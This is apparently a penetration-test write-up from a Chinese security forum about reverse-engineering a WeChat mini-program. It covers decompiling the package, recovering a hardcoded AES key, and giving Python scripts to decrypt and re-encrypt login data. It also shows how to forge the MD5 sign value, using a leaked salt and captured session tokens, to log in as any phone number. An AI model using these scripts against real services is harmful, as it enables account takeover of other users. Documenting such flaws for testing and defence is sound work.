# 反编译小程序、数据加密解密、sign值绕过-先知社区

> **来源**: https://xz.aliyun.com/news/17851  
> **文章ID**: 17851

---

在一次渗透测试中对客户的小程序进行测试，一抓包就发现重重加密数据，在手机号一键登录数据包中发现泄露了session\_key值，但是进行加密处理过，那就反编译小程序进行解密尝试。

# 反编译小程序

在点击该小程序时，C:\Users\xxx\Documents\WeChat Files\Applet在该目录下下会生成一个新的目录，最好时只留下面两个目录。





在生成的目录下找到\_\_APP\_\_.wxapkg文件，使用UnpackMiniApp.exe进行解密，重新生成一个wxapkg文件，



将生成的wxapkg文件拖到wxapkgconvertor.exe进行反编译，就会在wxapkg文件目录下生成一个新的文件夹，使用微信开发者工具打开就可以看到小程序的源码了





# 解密AES函数

发现存在数据加密，编译小程序，分析源码



对小程序进行调试，直接全局搜AES字段，发现 AES 的加密密钥硬编码在源代码中。

decryptByAes 是一个用于解密的函数，它使用 AES算法解密输入的密文，返回明文。解密过程需要密文、密钥和初始化向量（IV），并使用 CBC 模式和 PKCS7 填充。



根据默认密钥编辑 python 脚本（通用脚本，直接替换key或iv即可）

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decrypt_by_aes(encrypted_hex, key_hex=None, iv_hex=None):

    # 默认 Key 和 IV
    DEFAULT_KEY_HEX = "31323334353？？/414243444566"
    DEFAULT_IV_HEX = "3031323334？？？43444546"

    # 如果没有传入 Key 或 IV，使用默认值
    key_hex = key_hex if key_hex is not None else DEFAULT_KEY_HEX
    iv_hex = iv_hex if iv_hex is not None else DEFAULT_IV_HEX

    # 将 Hex 字符串转换为 bytes
    key = binascii.unhexlify(key_hex)
    iv = binascii.unhexlify(iv_hex)
    encrypted_data = binascii.unhexlify(encrypted_hex)

    # 初始化 AES-CBC 解密器
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # 解密并去除 PKCS7 填充
    decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)

    # 返回 UTF-8 解码后的明文
    return decrypted_data.decode('utf-8')


# 示例用法
if __name__ == "__main__":
    encrypted_hex = "30313233343536373839414243444546" 

    try:
        decrypted_text = decrypt_by_aes(encrypted_hex)
        print("解密结果:", decrypted_text)
    except Exception as e:
        print("解密失败:", str(e))
```

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import binascii

def encrypt_by_aes(plaintext, key_hex=None, iv_hex=None):
    DEFAULT_KEY_HEX = "31323334353？？/414243444566"
    DEFAULT_IV_HEX = "3031323334？？？43444546"  

    # 如果未提供 key_hex 或 iv_hex，使用默认值
    key_hex = key_hex if key_hex is not None else DEFAULT_KEY_HEX
    iv_hex = iv_hex if iv_hex is not None else DEFAULT_IV_HEX

    # 将十六进制字符串转换为字节
    key = binascii.unhexlify(key_hex)  # 32 字节密钥
    iv = binascii.unhexlify(iv_hex)    # 16 字节 IV

    # 将明文转换为字节（UTF-8 编码）
    plaintext_bytes = plaintext.encode('utf-8')

    # 初始化 AES-CBC 加密器
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # 添加 PKCS7 填充并加密
    padded_data = pad(plaintext_bytes, AES.block_size)  # PKCS7 填充
    ciphertext = cipher.encrypt(padded_data)

    # 将密文转换为十六进制字符串
    ciphertext_hex = binascii.hexlify(ciphertext).decode('utf-8')

    return ciphertext_hex

# 示例用法
if __name__ == "__main__":
    # 测试数据
    plaintext = "Hello, World!"
    try:
        # 使用默认密钥和 IV 加密
        encrypted_default = encrypt_by_aes(plaintext)
        print("加密结果:", encrypted_default)

    except Exception as e:
        print("加密失败:", str(e))
```



```
encryptedData=1b39aaa7b79f513b2958b671d8b8ad700ce3788963bc8ae3f91b61588cb963f05397695b3405dd75b2b91bc8e922d6918818e0d7eea3a835847b34b998bf5adf892fa1b41a193365a52970d063de10cb2d920aa066695d3187377a63c8efc0db1133cbcbb0f3d4c5def03e4c045a52f1c4401dbf23023e890a37c86773821b698a3f4f82d89840c33c14c0701cc8854b495e9c187106f7c265cd2fae34f320413adcff074bde1f189007c91a451054eee26ad058f3cdc74c67eba9f61ea1e010667b714c4d114559d14e8c9e2afb5c478c44d26c11de9bb88b1ec8e27f48269c&iv=b9d1b5783b906c84d20ae0b1ac1373c9d65e85bafb3922801b1f4681aadb8267&sessionKey=5a556c5a8288afd815bd6ef2a96ddf2e2e7b795abbc4304ac333a2352296d2e9&openId=c9731afaa0966e3778383bfb7bfa58f25ae50bd3edf21082414af311ea9fdb92&thirdType=56e32732df18962b0dab4454799fdd64&encryptFlag=1&timeHashPf=1744596343852&sign=01EC6E15CCE27E17FC5D5E58C1430E96
```

通过脚本解密出encryptedData、sessionKey、iv 值。



获得原始数据。



# 绕过sign值校验

修改手机号，改为任意用户的手机号，在进行加密处理，但是存在 sign 值校验，可以看到sign值时md5加密，不可逆，但是我们可以了解sign值的加密流程，修改数据重新加密sign值，然后替换sign值，进行绕过。

​

全局搜索sign，分析源码中的 setsigntrue 函数，



```
    setSignature: function(t) {
        var n = arguments.length > 1 && void 0 !== arguments[1] ? arguments[1] : {}, r = arguments.length > 2 && void 0 !== arguments[2] ? arguments[2] : "", a = arguments.length > 3 && void 0 !== arguments[3] ? arguments[3] : "", i = "";
        for (var o in n) t[o] = n[o];
        var s = this.objKeySort(t);
        for (var u in s) i = "".concat(i).concat(u, "=").concat(t[u]);
        return i += "".concat(r).concat(a), e.MD5(i).toString().toUpperCase();
    },
```

**这个函数接受四个参数：t，n，r，a。根据代码，t是主要的参数，n是可选参数，默认是空对象，r和a也有默认值。函数内部首先将n的属性合并到t中，也就是说，n中的键值对会被添加到t对象里。然后，它调用this.objKeySort(s)，这里的s是处理后的t对象。objKeySort的作用是对对象的键进行排序，返回一个排序后的新对象。接下来，函数遍历排序后的对象s，将每个键值对以“key=value”的形式拼接成字符串i。然后，i后面拼接上r和a，最后对这个拼接后的字符串进行MD5加密，并转换为大写字符串返回。**

1. 将传入的n参数合并到t对象中，也就是把额外的参数添加到t里。
2. 对t对象的所有键进行排序，得到排序后的对象s。
3. 遍历排序后的s，将每个键值对拼接成“key=value”的字符串，并将这些字符串按顺序连接起来，形成字符串i。
4. 在i的末尾添加r和a的值，得到最终的拼接字符串。
5. 对这个最终字符串进行MD5哈希，并将结果转为大写，作为sign值返回。

​

```
import hashlib

params = {
    "encryptFlag": "1",
    "encryptedData": "1b39aaa7b79f513b2958b671d8b8ad700ce3788963bc8ae3f91b61588cb963f05397695b3405dd75b2b91bc8e922d6918818e0d7eea3a835847b34b998bf5adf892fa1b41a193365a52970d063de10cb2d920aa066695d3187377a63c8efc0db1133cbcbb0f3d4c5def03e4c045a52f1c4401dbf23023e890a37c86773821b698a3f4f82d89840c33c14c0701cc8854b495e9c187106f7c265cd2fae34f320413adcff074bde1f189007c91a451054eee26ad058f3cdc74c67eba9f61ea1e010667b714c4d114559d14e8c9e2afb5c478c44d26c11de9bb88b1ec8e27f48269c",
    "iv": "b9d1b5783b906c84d20ae0b1ac1373c9d65e85bafb3922801b1f4681aadb8267",
    "openId": "c9731afaa0966e3778383bfb7bfa58f25ae50bd3edf21082414af311ea9fdb92",
    "sessionKey": "5a556c5a8288afd815bd6ef2a96ddf2e2e7b795abbc4304ac333a2352296d2e9",
    "thirdType": "56e32732df18962b0dab4454799fdd64",
    "timeHashPf": "1744596343852"
}

# 按字母顺序排序键
sorted_keys = sorted(params.keys())
# 拼接键值对
raw_str = "".join([f"{key}={params[key]}" for key in sorted_keys])
# 追加固定字符串
raw_str += "zoe-health3f7e609f0a22108e"
# MD5 计算并大写
sign = hashlib.md5(raw_str.encode()).hexdigest().upper()
print(sign)
```

运行 python 文件，输出的 md5 值和原始数据中的 sign 值一致





现在流程全部走完了

# 复现流程

抓取登录数据包，将密文都进行解密处理后，输入任意手机号，加密处理，将加密后的内容放入加密sign脚本文件中生成一个新的sign值，替换sign。就可以实现任意手机号登录。








